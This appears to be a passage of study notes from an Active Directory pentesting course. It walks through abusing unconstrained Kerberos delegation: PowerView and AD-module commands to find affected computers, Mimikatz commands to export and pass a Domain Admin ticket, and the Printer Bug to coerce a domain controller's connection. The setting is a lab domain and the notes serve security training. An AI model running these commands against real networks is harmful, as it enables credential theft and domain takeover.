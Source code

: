 > This way the server can reuse the user's TGT to access any other resource as the user

This could be used to escalate privileges in case we can compromise the computer with unconstrained delegation and a Domain Admin connects to that machine.


Discover domain computers which have unconstrained delegation enabled using PowerView:
```powershell
Get-DomainComputer -UnConstrained
```

Using ActiveDirectory module:
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

Compromise the server(s) where Unconstrained delegation is enabled.

- We must trick or wait for a domain admin to connect a service on appsrv.

Now, if the command is run again:
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

The DA token could be reused:
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```


### Printer Bug

- How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Printer Bug!
- A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (**running the Spooler service**) to connect to second a machine of the domain user's choice.
- We can force the dcorp-dc to connect to dcorp-appsrv by abusing the Printer bug.

![Alt text](/assets/images/posts/crtp/18.png){: .align-center}
